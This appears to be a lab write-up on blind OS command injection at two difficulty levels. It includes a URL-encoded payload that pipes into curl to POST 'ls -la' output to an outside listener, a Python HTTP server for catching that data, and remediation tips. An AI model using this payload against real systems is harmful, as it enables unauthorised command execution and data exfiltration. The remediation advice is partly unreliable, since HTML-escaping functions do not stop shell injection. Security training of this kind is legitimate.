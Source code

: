 # 1. Low
Tried with interacting as end user, I see result as in picture

![OS-C-B_L0.png](image/OS-C-B_L0.png)

Let's determine if it ping to my machine (ICMP Protocol). We can recognize that it's ping to my machine.

![OS-C-B_L1.png](image/OS-C-B_L1.png)

In real case, we should ping into our Collaborator (which is BurpSuite Pro extension) or our Command and Control Server (C2 Server)

![OS-C-B_L2.png](image/OS-C-B_L2.png)

---
# 2. Medium
The payload to is similar with [OS Command Injection](OS%20Command%20Injection) that I used `|` to bypass, but in this case I build a Server to logging my OS Request.
- My Post data into the server will be: `%7Ccurl%20http%3A%2F%2F192.168.204.1:80%2F%20-X%20POST%20-d%20"%60ls%20-la%60`

![OS-C-B_M0.png](image/OS-C-B_M0.png)

---
# 3. Script Supported

```python
from http.server import BaseHTTPRequestHandler, HTTPServer  
# Original source: https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7  
# CURL Request: curl -H "<HEADER>" -X POST http://<IP/HOSTNAME>:444/ -d "<Post_Data>"  


class S(BaseHTTPRequestHandler):  
    def _set_response(self):  
        self.send_response(200)  
        self.send_header('Content-type', 'text/html')  
        self.end_headers()  
  
    def do_GET(self):  
        print(f"\n[+] GET Request: {str(self.path)}\n")  
        self._set_response()  
        self.wfile.write("GET request for {}".format(self.path).encode('utf-8'))  
  
    def do_POST(self):  
        content_length = int(self.headers['Content-Length'])  
        post_data = self.rfile.read(content_length)  
        print(f"\n[+] POST Request: {str(self.path)}\n{post_data.decode('utf-8')}\n\n")  
def run(server_class=HTTPServer, handler_class=S, port=444):  
    server_address = ('', port)  
    httpd = server_class(server_address, handler_class)  
    try:  
        httpd.serve_forever()  
    except KeyboardInterrupt:  
        pass  
    httpd.server_close()  
    print('[-] Stopping HTTP Server...\n')  
  
  
if __name__ == '__main__':  
    from sys import argv  
  
    if len(argv) == 2:  
        run(port=int(argv[1]))  
    else:  
        run()
```


---
# 4. Remediation

- Validating User Input and only accept word or number only, example given using regular expression: `\w+` or `[a-zA-Z0-9 ]+`
- Using function to filter input: 
	- `$value = htmlentities($_GET['src'], ENT_QUOTES);`
	- `$value = htmlspecialchars($_GET['src'], ENT_QUOTES);`
- Using [sanitize filter php](https://www.php.net/manual/en/filter.filters.sanitize.php)